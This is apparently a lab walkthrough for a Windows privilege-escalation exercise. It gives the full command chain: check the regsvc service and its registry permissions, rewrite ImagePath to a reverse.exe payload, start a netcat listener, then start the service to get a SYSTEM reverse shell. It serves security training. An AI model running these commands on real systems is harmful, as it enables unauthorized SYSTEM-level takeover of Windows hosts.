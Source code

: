 # 🐾 Task 5: Exploiting Services - Weak Registry Permissions
---

## 📜 Task Description
In this task, we will exploit a registry vulnerability associated with the `regsvc` service, which runs with SYSTEM privileges. The vulnerability lies in the registry entry used to specify the executable path, which has weak permissions. This allows us to modify it to point to our executable file and gain a reverse shell with SYSTEM privileges.

---

## 🔍 Step 1: Checking Service Configuration
First, check the configuration of the `regsvc` service to confirm it runs with SYSTEM privileges and has a registry vulnerability. Execute the following command:  
`sc.exe qc regsvc`

### 📋 Expected Output
- Ensure that the `SERVICE_START_NAME` indicates SYSTEM.
- Verify that the executable path may be vulnerable to tampering.  
![image](https://github.com/user-attachments/assets/fcad07e5-5d73-42e5-95f8-92ca0adc6032)

---

## 🔑 Step 2: Checking Registry Write Permissions
Next, use the `accesschk.exe` tool to verify write permissions on the registry entry for the `regsvc` service. Execute the following command:  
`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

### 📋 Expected Output
- Confirm that the `NT AUTHORITY\INTERACTIVE` group (or all logged-in users) has write access to the registry key.  
![image](https://github.com/user-attachments/assets/0480858d-0e9e-479d-8b72-d23660aabb13)

---

## 📝 Step 3: Modifying the Registry Key
Now, modify the `ImagePath` registry key to point to your `reverse.exe` executable. Run the following command:  
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

### 📋 Expected Output
- Confirm that the `ImagePath` key has been successfully updated to point to `reverse.exe`.  
![image](https://github.com/user-attachments/assets/e29a79bb-671d-4ccc-8f7b-cfa2b56c31ee)

---

## 🎧 Step 4: Setting Up the Listener
Before starting the service, ensure you have a listener running on Kali. Use the following command to start the listener:  
`nc -lvnp 53`

---

## 🚀 Step 5: Starting the Service
Now, start the `regsvc` service. It should execute `reverse.exe` and provide you with a reverse shell with SYSTEM privileges. Execute the following command:  
`net start regsvc`

### 📋 Expected Output
- Confirm that you have received a reverse shell on Kali.  
![image](https://github.com/user-attachments/assets/fdccd94b-bdb7-4a7d-8370-9235cf78d6af)

---

## 🎉 Congratulations!
You have successfully exploited a registry vulnerability to gain a reverse shell with SYSTEM privileges! 🎊

---

## 📌 Notes
- Make sure you understand each step and its implications.
- Use this knowledge responsibly and only within authorized penetration testing engagements.
